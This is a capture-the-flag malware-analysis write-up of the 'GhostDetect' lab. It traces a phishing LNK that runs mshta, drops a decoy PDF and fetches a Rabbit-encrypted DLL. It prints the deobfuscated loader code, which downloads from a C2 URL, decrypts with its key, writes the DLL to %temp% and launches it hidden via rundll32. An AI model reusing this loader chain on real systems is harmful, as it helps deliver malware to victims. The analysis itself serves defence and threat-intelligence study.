

# GhostDetect Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/ghostdetect/](https://cyberdefenders.org/blueteam-ctf-challenges/ghostdetect/)

Suggested tools: CyberChef, Wireshark, `Strings`, VS Code, `LECmd`, ProcMon

# Scenario

One of the employees reported receiving an email with a suspicious-looking attachment. Suspecting that a known Threat Actor may be attempting to use phishing to gain a foothold in the organization, you need to analyze the provided file and identify the threat.

# Questions

Q1- In analyzing the malware's behavior after the initial intrusion, it's crucial to understand where it attempts to establish persistence or further infection. Where were the files dropped by the malware located within the system's file structure?

Answer: `C:\Users\Administrator\AppData\Local\Temp`

Reason: The shortcut `Xuzhou_Shenyang2024.lnk` actually launches `cmd.exe`, which runs `mshta` against the LNK file itself, treating it as an embedded HTML Application. Pulling the strings out of the LNK revealed VBScript that builds two drop paths off the `%temp%` environment variable, which resolves to `C:\Users\Administrator\AppData\Local\Temp` on this host. That's where the second-stage script `Jingdezhen.js` and the decoy document `Xuzhou_Shenyang2024.pdf` both get written.

```powershell
PS C:\Users\Administrator\Desktop\Start here\Tools\LECmd> .\LECmd.exe -f 'C:\Users\Administrator\Desktop\Start here\Artifacts\Xuzhou_Shenyang2024.lnk'
LECmd version 1.5.0.0
[...]

Source file: C:\Users\Administrator\Desktop\Start here\Artifacts\Xuzhou_Shenyang2024.lnk
[...]

  File size (bytes): 345,088
  Flags: HasTargetIdList, HasLinkInfo, HasRelativePath, HasWorkingDir, HasArguments, HasIconLocation, IsUnicode, HasExpIcon, EnableTargetMetadata
  File attributes: FileAttributeArchive
  Icon index: 85
  Show window: SwShowminnoactive (Display the window as minimized without activating it.)

Relative Path: ..\..\..\..\..\Windows\System32\cmd.exe
Working Directory: %CD%
Arguments: /c start "" "mshta" "%CD%\Xuzhou_Shenyang2024.lnk"
Icon Location: C:\Windows\system32\imageres.dll

--- Link information ---
Flags: VolumeIdAndLocalBasePath

>> Volume information
  Drive type: Fixed storage media (Hard drive)
  Serial number: 00000000
  Label: (No label)
  Local path: C:\Windows\System32\cmd.exe

[...]

>> Property store data block (Format: GUID\ID Description ==> Value)
   b725f130-47ef-101a-a5f1-02608c9eebac\10     Item Name Display                   ==> file.hta
   b725f130-47ef-101a-a5f1-02608c9eebac\4      Item Type Text                      ==> HTML Application
   b725f130-47ef-101a-a5f1-02608c9eebac\15     Date Created                        ==> 08/25/2023 14:26:52
   b725f130-47ef-101a-a5f1-02608c9eebac\12     Size                                ==> 2153030
   b725f130-47ef-101a-a5f1-02608c9eebac\14     Date Modified                       ==> 08/28/2023 07:48:56
   dabd30ed-0043-4789-a7f8-d013a4736622\100    Item Folder Path Display Narrow     ==> Desktop (C:\Users\User)
   28636aa6-953d-11d2-b5d6-00c04fd918d0\30     Parsing Path                        ==> C:\Users\User\Desktop\file.hta
[...]
   
PS C:\Users\Administrator\Desktop\Start here\Tools\Strings> .\strings.exe -a -n 8 ..\..\Artifacts\Xuzhou_Shenyang2024.lnk > lnk_strings.txt
PS C:\Users\Administrator\Desktop\Start here\Artifacts> Select-String temp .\lnk_strings.txt

lnk_strings.txt:22:sdf2okd0 = sho.ExpandEnvironmentStrings("%temp%") & "\" & "Jingdezhen.js"
lnk_strings.txt:23:s18838a3 = sho.ExpandEnvironmentStrings("%temp%") & "\" & "Xuzhou_Shenyang2024.pdf"

```



Q2- The malware's communication with external servers is key to its operation. What is the URL that was used by the malware to download a secondary payload?

Answer: `hxxps://windacarmelita.pw/picdir/big/113-1131910-clipart.svg`

Reason: Deobfuscating the JS portion of the LNK (via [obf-io.deobfuscate.io](http://obf-io.deobfuscate.io/)) exposed an `Msxml2.ServerXMLHTTP.6.0` ActiveX object used to pull down a second payload, disguised with a benign-looking `.svg` image extension to blend in with normal web traffic.

```powershell
# Using https://obf-io.deobfuscate.io/ on the JS portion of the main .lnk file

PS C:\Users\Administrator\Desktop\Start here\Artifacts> Select-String http .\deobfus_JS.js

deobfus_JS.js:792:  a0_0x3c3e07 = new ActiveXObject("Msxml2.ServerXMLHTTP.6.0");
[...]
deobfus_JS.js:819:    a0_0x3c3e07.open("GET", "https://windacarmelita.pw/picdir/big/113-1131910-clipart.svg");
```

Q3- Understanding the malware's defense evasion techniques is essential for developing effective detection strategies. What encryption technique is employed by the malware to conceal its activities or payloads?

Answer: Rabbit

Reason: Deobfuscating the JS portion of the LNK and grepping for cipher-related terms surfaced CryptoJS's `Rabbit` stream cipher implementation, used to decrypt the secondary payload fetched from the download URL. The decrypt call uses a passphrase-based form with a hardcoded key, `dfshji349jg843059utli`, embedded directly in the script.

```powershell
PS C:\Users\Administrator\Desktop\Start here\Artifacts> Select-String -Path .\deobfus_JS.js -Pattern "rabbit"

deobfus_JS.js:737:  var _0x4bdd04 = a0_0x258793.algo.Rabbit = _0x24578f.extend({
deobfus_JS.js:788:  a0_0x258793.Rabbit = _0x24578f._createHelper(_0x4bdd04);
deobfus_JS.js:801:          var _0x150cf5 = a0_0x258793.Rabbit.decrypt(_0x233aa4, "dfshji349jg843059utli").toString(a0_0x258793.enc.Utf8);
```

Q4- Decrypting payloads is a common technique used by malware to evade initial analysis. What is the decryption key used to unlock the second stage of the malware?

Answer: `dfshji349jg843059utli`

Reason: This key appears hardcoded directly in the deobfuscated JS, passed as the passphrase argument to the `Rabbit.decrypt()` call that unlocks the downloaded secondary payload.

```powershell
var _0x150cf5 = a0_0x258793.Rabbit.decrypt(_0x233aa4, "dfshji349jg843059utli").toString(a0_0x258793.enc.Utf8);
```

Q5- Malware analysis often involves tracking how it interacts with the filesystem. What is the name of the file created by the malware to store decrypted data?

Answer: `mokpp9342jsOUth.dll`

Reason: Tracing the decrypted Rabbit output through the deobfuscated JS shows it gets base64-decoded via an MSXML DOM node trick, then written out through an `ADODB.Stream` binary writer to `%temp%\mokpp9342jsOUth.dll`. The script then executes it with `rundll32`, calling its exported function `NormalizeF`, confirming this dropped file is the actual second-stage DLL payload.

```powershell
if (a0_0x3c3e07.status === 200) {
          var _0x233aa4 = a0_0x3c3e07.responseText.substr(5712, 5509600);
          var _0x150cf5 = a0_0x258793.Rabbit.decrypt(_0x233aa4, "dfshji349jg843059utli").toString(a0_0x258793.enc.Utf8);
          var _0x44e11d = new ActiveXObject("WScript.Shell");
          var _0x2411b5 = _0x44e11d.ExpandEnvironmentStrings("%temp%") + "\\" + "mokpp9342jsOUth.dll";
          var _0x37353a = new ActiveXObject("MSXML2.DOMDocument");
          var _0x415ef1 = new ActiveXObject("ADODB.Stream");
          var _0x2af5e1 = _0x37353a.createElement("node");
          _0x2af5e1.dataType = "bin.base64";
          _0x2af5e1.text = _0x150cf5;
          _0x415ef1.Type = 1;
          _0x415ef1.Open();
          _0x415ef1.Write(_0x2af5e1.nodeTypedValue);
          _0x415ef1.SaveToFile(_0x2411b5, 2);
          _0x415ef1.close();
          _0x44e11d.Run("rundll32 \"" + _0x2411b5 + "\",NormalizeF", 0, true);
        } else {}
```

Q6- Analyzing the malware's execution flow is crucial for understanding its impact and behavior. What function does the malware execute within the DLL to perform its malicious activities?

Answer: `NormalizeF`

Reason: The JS calls `rundll32` against the dropped DLL, explicitly invoking its exported function `NormalizeF` as the entry point. The call runs hidden (window style `0`, `SW_HIDE`) and the script waits for it to finish (`true`), meaning `NormalizeF` holds the actual malicious logic for this stage.

```powershell
_0x44e11d.Run("rundll32 \"" + _0x2411b5 + "\",NormalizeF", 0, true);

# 0 (second argument to .Run) — the window style, 0 = SW_HIDE, meaning the launched process runs completely hidden, no visible window at all.
# true (third argument) — tells the script to wait synchronously for the process to finish before continuing, rather than firing it off and moving on immediately.
# NormalizeF is just the name of a specific exported function inside mokpp9342jsOUth.dll — it's not a standard Windows API, it's whatever the malware author named their entry point.
```

Q7- Investigating related artifacts can provide insights into the broader campaign. What is the name of another JavaScript file that utilizes the domain identified during the investigation?

Answer: `sdfhui2kjd.js`

Reason: A VirusTotal lookup on the C2 domain `windacarmelita.pw` (11/94 vendors flagging it malicious) shows its Communicating Files relations, listing other samples observed talking to the same domain. Among them is a JavaScript file named `sdfhui2kjd.js`, scanned `2025-03-10` with 27/61 detections, indicating this domain has been reused across multiple samples in the same campaign rather than being a one-off.


Q8- Attribution is a critical aspect of threat intelligence. Can you identify which Advanced Persistent Threat (APT) group is likely behind this attack?

Answer: UAC-0057

Reason: CERT-UA advisory #7435 documents this exact campaign: an LNK invoking `mshta` to run an embedded HTA, dropping a decoy PDF while JavaScript downloads and Rabbit-decrypts a payload, matching every stage traced in this investigation. The advisory attributes the activity to UAC-0057, noting the technique as a JavaScript variation of `PicassoLoader` leading to a Cobalt Strike Beacon.

Reference: [https://cert.gov.ua/article/5661411](https://cert.gov.ua/article/5661411)


Q9- What is the country of origin associated with the APT group identified in this investigation?

Answer: Belarus

Reason: SOC Prime's UAC-0057 reporting ties the group's tradecraft to the long-running Ghostwriter / FrostyNeighbor / UNC1151 activity cluster, which security researchers associate with Belarus-aligned espionage operations targeting Ukrainian government entities.

Reference: [https://socprime.com/blog/uac-0057-attack-detection/](https://socprime.com/blog/uac-0057-attack-detection/)


# Attack Tree

```bash
[Phishing Attachment]  ← UAC-0057 (Belarus-aligned) → employee victim
    └── Xuzhou_Shenyang2024.lnk  ← weaponized shortcut, 5,633 KB (oversized, embedded HTA)
        └── cmd.exe /c start "" "mshta" "%CD%\Xuzhou_Shenyang2024.lnk"  ← LNK parses itself as HTML
            └── mshta.exe
                └── file.hta (embedded in LNK, minimized/hidden window)
                    ├── [Stage 1 — Decoy Drop]
                    │   └── Base64 blob "JVBERi0xL..." → ADODB.Stream (binary)
                    │       └── %temp%\Xuzhou_Shenyang2024.pdf  ← decoy document shown to victim
                    │
                    └── [Stage 2 — Loader JS]
                        └── obfuscator.io JS blob dropped as %temp%\Jingdezhen.js
                            └── Msxml2.ServerXMLHTTP.6.0 GET
                                └── hxxps://windacarmelita[.]pw/picdir/big/113-1131910-clipart.svg  ← fake .svg, real payload
                                    └── responseText.substr(5712, 5509600)  ← strips decoy header bytes
                                        └── CryptoJS Rabbit.decrypt(ciphertext, "dfshji349jg843059utli")
                                            └── MSXML DOM bin.base64 → nodeTypedValue (text → raw binary)
                                                └── ADODB.Stream.SaveToFile
                                                    └── %temp%\mokpp9342jsOUth.dll  ← second-stage payload
                                                        └── rundll32 "mokpp9342jsOUth.dll",NormalizeF  ← hidden (SW_HIDE), synchronous
                                                            └── PicassoLoader-family DLL (per CERT-UA#7435)
                                                                └── Cobalt Strike Beacon  ← final-stage C2 implant
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery | Initial artifact | `Xuzhou_Shenyang2024.lnk` |
|  | File size | `5,633 KB` (abnormally large for an LNK) |
|  | Embedded file (property store) | `file.hta` |
|  | Decoy document | `Xuzhou_Shenyang2024.pdf` |
| Execution | Trigger command | `cmd.exe /c start "" "mshta" "%CD%\Xuzhou_Shenyang2024.lnk"` |
|  | Second-stage launcher | `rundll32 "mokpp9342jsOUth.dll",NormalizeF` |
|  | Exported function | `NormalizeF` |
| Dropped Files | Path | `%temp%\Jingdezhen.js` |
|  | Path | `%temp%\Xuzhou_Shenyang2024.pdf` |
|  | Path | `%temp%\mokpp9342jsOUth.dll` |
| Encryption | Algorithm | `Rabbit` (CryptoJS stream cipher) |
|  | Key | `dfshji349jg843059utli` |
|  | Library | CryptoJS |
| Obfuscation | JS obfuscator | [obfuscator.io](http://obfuscator.io/) |
| Network | C2 / download URL | `hxxps://windacarmelita[.]pw/picdir/big/113-1131910-clipart.svg` |
|  | Related sample | `sdfhui2kjd.js` |
| Attribution | APT group | `UAC-0057` |
|  | Associated cluster | Ghostwriter / FrostyNeighbor / UNC1151 |
|  | Country of origin | Belarus |
|  | Payload family | PicassoLoader → Cobalt Strike Beacon |

# Lab Insights

- **File extensions are theater, not truth:** every stage of this chain abused extension mismatches to defeat casual inspection, an LNK that's actually an HTA container, a `.svg` URL that's actually a Rabbit-encrypted DLL, a `.js` drop path used for what's ultimately binary content. Trusting an extension anywhere in this chain would have derailed the analysis.
- **Legitimate Windows components are the entire attack surface:** `mshta`, `ADODB.Stream`, `MSXML2.DOMDocument`, `Msxml2.ServerXMLHTTP`, and `rundll32` are all signed, built-in Windows/Office components, and together they cover delivery, file writes, encoding conversion, network download, and execution, with no custom attacker binary needed until the final DLL. This is why static signature detection struggles here and behavioral/process-lineage detection matters more.
- **Encryption strength is irrelevant when the key ships with the lock:** Rabbit is a cryptographically sound cipher, but the passphrase was hardcoded in plaintext in the same script that uses it, meaning the "encryption" functioned only as a static-analysis speed bump, not real confidentiality.
- **Provenance metadata survives repackaging:** even though the attacker rebuilt the lure as an LNK, the property store block still carried the original authoring filename, size, and build timestamps, and an all-zero volume serial pointed to a scripted/VM build process, underscoring that LNK metadata is a durable attribution artifact even when the visible payload is stripped away.
- **Domain reuse links isolated samples into a campaign:** pivoting on the C2 domain via VirusTotal relations surfaced an unrelated-looking `.js` sample communicating with the same infrastructure, turning a single-host investigation into evidence of a broader, ongoing campaign.